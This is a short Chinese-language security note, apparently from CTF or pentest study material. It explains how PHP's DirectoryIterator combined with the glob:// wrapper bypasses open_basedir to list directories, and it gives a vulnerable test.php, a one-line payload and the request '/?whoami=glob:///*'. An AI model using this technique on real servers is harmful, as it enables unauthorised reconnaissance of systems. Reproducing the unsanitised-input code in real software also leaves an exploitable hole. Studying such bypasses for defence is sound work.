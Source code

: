 # DirectoryIterator

提供了一个用于查看文件系统目录内容的简单接口，该类是在 PHP 5 中增加的一个类。


DirectoryIterator与glob://协议结合将无视open_basedir对目录的限制，可以用来列举出指定目录下的文件。


```plain
test.php<?php$dir = $_GET['whoami'];$a = new DirectoryIterator($dir);foreach($a as $f)    {     echo($f->__toString().'<br>');}?>    # payload一句话的形式:$a = new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().'<br>');}?>

```



我们输入`/?whoami=glob:///*`即可列出根目录下的文件：但是会发现只能列根目录和open_basedir指定的目录的文件，不能列出除前面的目录以外的目录中的文件，且不能读取文件内容。


但是经过积累，还是有类能够读到文件（见其他）



